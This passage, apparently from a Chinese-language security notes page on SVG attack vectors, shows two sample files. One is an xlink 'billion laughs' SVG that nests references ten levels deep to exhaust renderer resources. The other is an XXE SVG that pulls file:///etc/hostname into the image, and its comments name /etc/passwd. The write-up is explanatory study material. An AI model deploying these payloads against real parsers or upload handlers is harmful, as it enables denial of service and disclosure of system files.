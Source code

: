 > 04-xlink-billion-laughs.svg

```xml
<svg version="1.2" baseProfile="tiny" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" xml:space="preserve">
<path id="a" d="M0,0"/>
<g id="b"><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/><use xlink:href="#a"/></g>
<g id="c"><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/><use xlink:href="#b"/></g>
<g id="d"><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/><use xlink:href="#c"/></g>
<g id="e"><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/><use xlink:href="#d"/></g>
<g id="f"><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/><use xlink:href="#e"/></g>
<g id="g"><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/><use xlink:href="#f"/></g>
<g id="h"><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/><use xlink:href="#g"/></g>
<g id="i"><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/><use xlink:href="#h"/></g>
<g id="j"><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/><use xlink:href="#i"/></g>
</svg>
```

### <a name="chapter-four-five" id="chapter-four-five"></a>4.5 XML 外部实体注入（XXE）

> [返回目录](#chapter-one)

这个危害没有在浏览器测试到，但是看他们说是存在的。

可能我的网络安全资料比较缺乏，所以这里记录一下：

> 05-xxe.svg

```xml
 <!-- ubuntu 文件信息： file:///etc/passwd -->
 <!-- ubuntu 文件信息： file:///etc/hostname -->
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```
